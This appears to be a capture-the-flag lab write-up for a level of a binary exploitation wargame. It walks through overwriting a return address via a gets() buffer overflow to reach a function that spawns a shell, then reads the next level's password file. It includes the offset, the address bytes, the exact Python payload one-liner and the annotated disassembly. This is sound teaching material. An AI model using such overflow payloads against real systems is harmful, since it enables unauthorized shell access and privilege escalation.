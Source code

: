 - attack: buffer overflow
- binary behavior: 
- targeted functions: run and main
- vulnerability in main: gets() function (receives user input) has no buffer limit
- vulnerability in run: system() run /bin/sh

Method:
- find the overflow size
- find eip offest size
- find return function address
- overwite eip by the return address
- cat passwd when get console with root privedges

Info:
- 0x08048444 - address of run function
- 0x44484080 - same in little-endian
- same in hex - \x44\x84\x04\x08

- eip register address after segfault - 0x63413563
- its offset - 76 (from wiremask.eu)


Code:
objdump -d ./level1
gdb level1
    r A # run with argument
(gdb)  r <<< "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac"
# use random pattern generation for >80, just multiplication of same symbils doesn't works. Why?
(python -c 'print "a" * 76 + "\x44\x84\x04\x08"';cat) | ./level1
cd ..; cat level2/.pass

Functions
main
08048480 <main>:
 8048480:       55                      push   %ebp
 8048481:       89 e5                   mov    %esp,%ebp
 8048483:       83 e4 f0                and    $0xfffffff0,%esp
 8048486:       83 ec 50                sub    $0x50,%esp
 8048489:       8d 44 24 10             lea    0x10(%esp),%eax
 804848d:       89 04 24                mov    %eax,(%esp)
 8048490:       e8 ab fe ff ff          call   8048340 <gets@plt> # exploit
 8048495:       c9                      leave
 8048496:       c3                      ret # put here the adress of run function


run
08048444 <run>:
 8048444:       55                      push   %ebp
 8048445:       89 e5                   mov    %esp,%ebp
 8048447:       83 ec 18                sub    $0x18,%esp
 804844a:       a1 c0 97 04 08          mov    0x80497c0,%eax
 804844f:       89 c2                   mov    %eax,%edx
 8048451:       b8 70 85 04 08          mov    $0x8048570,%eax
 8048456:       89 54 24 0c             mov    %edx,0xc(%esp)
 804845a:       c7 44 24 08 13 00 00    movl   $0x13,0x8(%esp)
 8048461:       00
 8048462:       c7 44 24 04 01 00 00    movl   $0x1,0x4(%esp)
 8048469:       00
 804846a:       89 04 24                mov    %eax,(%esp)
 804846d:       e8 de fe ff ff          call   8048350 <fwrite@plt>
 8048472:       c7 04 24 84 85 04 08    movl   $0x8048584,(%esp)
 8048479:       e8 e2 fe ff ff          call   8048360 <system@plt> #exploit
 804847e:       c9                      leave
 804847f:       c3



Additional info
- pypes
 < - (process substitution) feed the output of right process/es into stdin of lest process
 | - (pipe) same
 < <(;) - same but passing two commands
 <() <() - same
 << - (here-document) pass the ending string, write arguments, exit with writing ending string
 <<< - (here-string) just passing a string as argument
 
- hex offset - the order of element in memory array (base address + offset = absolute address)